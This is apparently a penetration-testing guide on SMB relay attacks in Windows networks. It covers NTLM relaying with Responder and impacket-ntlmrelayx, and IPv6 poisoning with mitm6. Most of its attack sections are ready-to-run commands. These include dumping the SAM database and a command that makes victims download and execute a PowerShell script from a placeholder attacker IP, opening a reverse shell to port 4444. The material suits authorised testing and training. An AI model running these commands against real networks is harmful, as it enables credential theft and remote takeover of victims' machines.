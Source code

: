 SMB Relay is an attack that abuses the **Server Message Block (SMB)** protocol, which is commonly used in Windows networks to share files, printers, and other resources.

The attacker takes advantage of the way SMB authentication works.  
Instead of stealing a password, the attacker **impersonates the legitimate SMB server** and then **relays** the victim’s authentication attempt to a real server to gain access.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Basic Attack Process

1. **Configuring Responder**:

- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```bash
sudo nano /etc/responder/Responder.conf
```
- Responder is a tool used to capture SMB/NTLM authentication attempts from victims. It works by spoofing services like SMB, DNS, and HTTP to trick devices into sending authentication requests to the attacker.

```bash
sudo responder -I eth0 
```


2. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to. You can identify the hosts with SMB enabled using:
```bash
nxc smb 192.168.1.0/24
```
- While the Responder is active use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
3. **Gaining access**:
Perform post-authentication actions:

- Dump sensitive information (e.g., SAM database, LSASS memory).
- Execute commands remotely.
- Create a reverse shell.
```bash
sudo impacket-ntlmrelayx -tf targets.txt --dump
sudo impacket-ntlmrelayx -tf targets.txt -c "whoami"
```

## RCE Attack Process
- Copy the PowerShell Invoke-PowershellTCP.ps1 script and open it for editing. 
```bash
cp Invoke-PowershellTCP.ps1 PS.ps1
nano PS.ps1
```
- Add the following line at the end of the file:
```bash
Invoke-PowershellTCP -reverse -IPAddress <attacker_ip> -Port 4444
```
- Start a Python HTTP server and a listener:
```bash
python3 -m http.server 80
nc -lvnp 4444
```
- Run the responder service to capture authentication attempts 
```bash
sudo responder -I eth0 
```
- Execute the NTLMRelay inducing to fetch and execute the hosted script.
```bash
sudo impacket-ntlmrelayx -tf targets.txt -c "powershell IEX(New-Object Net.WebClient).downloadString('http://<attacker_ip>:80/PS.ps1')"
```
## IPv6 SMB Relaying Attack Process
IPv6 relaying leverages the fact that many modern networks have IPv6 enabled by default, even if administrators primarily use IPv4. Attackers exploit IPv6 name resolution to trick clients into authenticating against a rogue server controlled by the attacker, allowing NTLM credentials to be captured and relayed.

1. **Start mitm6:**

```bash
mitm6 -d <domain>
```

- This announces fake IPv6 RAs and provides a rogue DNS server.
- All domain-joined Windows clients will attempt to resolve domain resources via the attacker.

2. **Capture NTLM Authentication:**

- When a client attempts to access any SMB or HTTP resource in the domain, it authenticates using NTLMv2.
- The authentication request is sent to the attacker instead of the legitimate server.

2. **Relay with NTLMRelayx:**

- Relay these IPv6-captured NTLM credentials to a target system:
```bash
sudo ntlmrelayx.py -6 -tf targets.txt -socks -debug -smb2support
```

- The `-6` flag ensures the relay works over IPv6.
- `-smb2support` is crucial as modern Windows systems often enforce SMB2/3.
- `-socks` allows connecting through a SOCKS proxy to interact with the compromised account.

4. **Connecting to the Relayed Account:**

Once a relay has been successfully established, you can access the account using a **SOCKS proxy**:

```bash
proxychains crackmapexec smb <target-ip> -u <user> -p <anypassword> -d <domain>
```

---

